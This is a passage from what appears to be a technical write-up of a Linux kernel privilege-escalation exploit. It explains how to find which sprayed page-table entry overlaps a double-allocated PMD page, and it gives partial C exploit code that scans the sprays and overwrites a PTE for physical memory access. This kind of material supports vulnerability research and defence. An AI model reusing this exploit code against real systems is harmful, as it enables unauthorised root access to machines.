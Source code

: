 Copy

Codeblock 5.1.2.6.1: Partial code for the exploit written in C, which allocates the overlapping PMD page by writing to a userland page.

##### 5.1.2.7. Finding the overlapping PTE

Now we have an overlapping PMD and PTE somewhere, we need to find out which of the sprayed PTEs is the overlapping one. This is a very easy procedure as well, as it involves checking which of the PTE areas has an PTE entry belonging to the PMD area. This is essentially equal to checking if the value is not the original value, indicating the page was overwritten.

In case we want to perform a manual sanity check, we also print physical address 0x0 to the user. This usually belongs to MMIO devices, but will usually look the same.

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (allocate the overlapping PMD page)

	printf("[*] checking %d sprayed pte's for overlap...\n", CONFIG_PTE_SPRAY_AMOUNT);

	// find overlapped PTE area
	pte_area = NULL;
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT; i++)
	{
		unsigned long long *test_target_addr = PTI_TO_VIRT(2, 0, i, 0, 0);

		// pte entry pte[0] should be the PFN+flags for &_pmd_area
		// if this is the double allocated PTE, the value is PFN+flags, not 0x41
		if (*test_target_addr != 0x41)
		{
			printf("[+] confirmed double alloc PMD/PTE\n");
			PRINTF_VERBOSE("    - PTE area index: %lld\n", i);
			PRINTF_VERBOSE("    - PTE area (write target address/page): %016llx (new)\n", *test_target_addr);
			pte_area = test_target_addr;
		}
	}

	if (pte_area == NULL)
	{
		printf("[-] failed to detect overwritten pte: is more PTE spray needed? pmd: %016llx\n", *(unsigned long long*)_pmd_area);

		return;
	}

    // set new pte value for sanity check
	*pte_area = 0x0 | 0x8000000000000867;

	flush_tlb(_pmd_area, 0x400000);
	PRINTF_VERBOSE("    - PMD area (read target value/page): %016llx (new)\n", *(unsigned long long*)_pmd_area);

    // (rest of the exploit)
}
```
